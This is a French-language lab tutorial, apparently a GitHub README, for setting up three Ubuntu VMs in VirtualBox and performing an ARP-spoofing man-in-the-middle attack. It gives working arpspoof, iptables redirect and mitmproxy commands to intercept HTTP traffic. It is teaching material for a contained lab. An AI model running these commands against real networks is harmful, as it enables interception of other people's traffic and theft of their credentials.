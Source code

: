 ### Tutoriel Complet pour une Attaque Man-in-the-Middle avec Ubuntu 22.04

Voici un tutoriel détaillé pour configurer et exécuter une attaque Man-in-the-Middle (MITM) avec Ubuntu 22.04 sur VirtualBox, incluant toutes les étapes nécessaires, les configurations réseau, et les commandes.

### Pré-requis

- **Logiciel de virtualisation** : VirtualBox (téléchargeable depuis [ici](https://www.virtualbox.org/))
- **Système d'exploitation** : Ubuntu 22.04 LTS (téléchargeable depuis [ici](https://ubuntu.com/download/desktop))
- **Trois machines virtuelles** : Une machine attaquante et deux machines victimes

### Configuration des Machines Virtuelles dans VirtualBox

#### Types de Machines

1. **Machine Attaquant (Attacker)** : Utilisée pour exécuter l'attaque MITM
2. **Machine Victime 1 (Victim 1)** : Première cible de l'attaque
3. **Machine Victime 2 (Victim 2)** : Deuxième cible de l'attaque

#### Création des Machines Virtuelles

1. **Créer une nouvelle machine virtuelle** pour chaque rôle (Attacker, Victim1, Victim2) :
   - **Nom** : Attacker, Victim1, Victim2
   - **Type** : Linux
   - **Version** : Ubuntu (64-bit)
   - **Mémoire** : 2048 MB (recommandé)
   - **Disque dur** : Créez un disque virtuel (au moins 20 Go)

2. **Installer Ubuntu 22.04** sur chaque machine virtuelle :
   - Démarrez chaque machine virtuelle avec l'ISO d'Ubuntu pour l'installation.
   - Suivez les instructions d'installation d'Ubuntu.

### Configuration du Réseau

#### Configuration du Réseau Interne

1. **Configurer les adaptateurs réseau** pour chaque machine dans VirtualBox :
   - **Machine Attaquant (Attacker)** :
     - Adapter 1 : NAT
     - Adapter 2 : Internal Network (nommé `intnet`)
   - **Machine Victime 1 (Victim 1)** et **Machine Victime 2 (Victim 2)** :
     - Adapter 1 : Internal Network (nommé `intnet`)

#### Configuration des Adresses IP Statiques

1. **Attribuer des adresses IP statiques** :

   - Pour la machine `Attacker` :
     - Ouvrez un terminal et éditez le fichier `/etc/netplan/00-installer-config.yaml` :
       ```yaml
       network:
         version: 2
         ethernets:
           enp0s3:
             dhcp4: true
           enp0s8:
             dhcp4: no
             addresses:
               - 192.168.1.10/24
             nameservers:
               addresses:
                 - 8.8.8.8
       ```
     - Appliquez les changements :
       ```sh
       sudo netplan apply
       ```

   - Pour la machine `Victim1` :
     - Éditez le fichier `/etc/netplan/00-installer-config.yaml` :
       ```yaml
       network:
         version: 2
         ethernets:
           enp0s3:
             dhcp4: no
             addresses:
               - 192.168.1.20/24
             nameservers:
               addresses:
                 - 8.8.8.8
             routes:
               - to: default
                 via: 192.168.1.10
       ```
     - Appliquez les changements :
       ```sh
       sudo netplan apply
       ```

   - Pour la machine `Victim2` :
     - Éditez le fichier `/etc/netplan/00-installer-config.yaml` :
       ```yaml
       network:
         version: 2
         ethernets:
           enp0s3:
             dhcp4: no
             addresses:
               - 192.168.1.30/24
             nameservers:
               addresses:
                 - 8.8.8.8
             routes:
               - to: default
                 via: 192.168.1.10
       ```
     - Appliquez les changements :
       ```sh
       sudo netplan apply
       ```

2. **Vérifiez la connectivité entre les machines** en utilisant `ping` :
   - Depuis `Attacker` :
     ```sh
     ping 192.168.1.20
     ping 192.168.1.30
     ```
   - Depuis `Victim1` :
     ```sh
     ping 192.168.1.10
     ping 192.168.1.30
     ```
   - Depuis `Victim2` :
     ```sh
     ping 192.168.1.10
     ping 192.168.1.20
     ```

### Installation des Outils Nécessaires

#### Sur la Machine Attaquant (Attacker)

1. **Mettre à jour le système** :
   ```sh
   sudo apt update && sudo apt upgrade -y
   ```

2. **Installer les outils nécessaires** :
   ```sh
   sudo apt install dsniff ettercap-text-only iptables mitmproxy -y
   ```

3. **Activer le transfert de paquets IP** :
   ```sh
   echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
   ```

#### Sur les Machines Victimes (Victim1 et Victim2)

1. **Mettre à jour le système** :
   ```sh
   sudo apt update && sudo apt upgrade -y
   ```

### Étape 1 : Empoisonner les Tables ARP

#### 1. Empoisonner la Table ARP de Victim1

1. Exécutez la commande suivante sur la machine attaquant (`attacker`) :
   ```sh
   sudo arpspoof -i enp0s8 -t 192.168.1.20 192.168.1.30
   ```

#### 2. Empoisonner la Table ARP de Victim2

1. Ouvrez un nouveau terminal sur `attacker`.

2. Exécutez la commande suivante :
   ```sh
   sudo arpspoof -i enp0s8 -t 192.168.1.30 192.168.1.20
   ```

### Étape 2 : Configurer `iptables` pour Rediriger le Trafic HTTP

1. Ouvrez un nouveau terminal sur `attacker`.

2. Exécutez la commande suivante pour rediriger le trafic HTTP vers `mitmproxy` :
   ```sh
   sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-port 8080
   ```

### Étape 3 : Lancer un Proxy MITM

1. Sur la machine attaquant, lancez `mitmproxy` :
   ```sh
   sudo mitmproxy -p 8080
   ```

### Vérification et Conclusion

1. **Tester l'Attaque** :
   - Sur `Victim1`, ouvrez un navigateur et accédez à un site web HTTP (non HTTPS).
   - Sur `attacker`, vous devriez voir le trafic intercepté dans `mitmproxy`.

2. **Arrêter l'Attaque** :
   - Arrêtez `arpspoof` et `mitmproxy` en utilisant `Ctrl + C`.
   - Réinitialisez les règles `iptables` :
     ```sh
     sudo iptables -t nat -F
     ```

### Résumé des Commandes

#### Machine Attaquant (Attacker)

```sh
# Activer le transfert IP
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# Empoisonner les tables ARP
sudo arpspoof -i enp0s8 -t 192.168.1.20 192.168.1.30
sudo arpspoof -i enp0s8 -t 192.168.1.30 192.168.1.20

# Rediriger le trafic HTTP
sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-port 8080

# Lancer mitmproxy
sudo mitmproxy -p 8080

# Réinitialiser les règles iptables
sudo iptables -t nat -F
```

En suivant ce tutoriel, vos machines virtuelles pourront communiquer entre elles via le réseau interne et accéder à Internet, tout en permettant de configurer et d'observer une attaque Man-in-the-Middle de manière sécurisée et contrôlée.

